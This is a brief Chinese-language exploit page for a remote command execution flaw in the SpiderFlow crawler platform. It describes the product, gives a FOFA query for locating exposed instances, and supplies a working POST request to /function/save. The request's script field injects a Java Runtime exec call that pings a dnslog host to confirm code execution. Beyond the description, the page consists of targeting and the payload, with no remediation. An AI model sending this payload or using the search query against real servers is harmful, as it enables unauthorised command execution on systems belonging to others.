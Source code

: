 # SpiderFlow save 远程命令执行漏洞

## 漏洞描述

SpiderFlow 平台以流程图的⽅式定义爬⾍,是⼀个⾼度灵活可配置的爬⾍平台 

官⽹：https://www.spiderflow.org/

## 漏洞影响

<a-checkbox checked>SpiderFlow</a-checkbox></br>

## FOFA

<a-checkbox checked>title=="SpiderFlow"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1640438666683-12d29712-e90c-483b-b311-9fd25f852ca4.png)

发送请求包执行命令

```go
POST /function/save

id=&name=cmd&parameter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
```

![img](../../../.vuepress/public/img/1640438711420-73f701ff-c390-4201-96df-1e62cdf44208.png)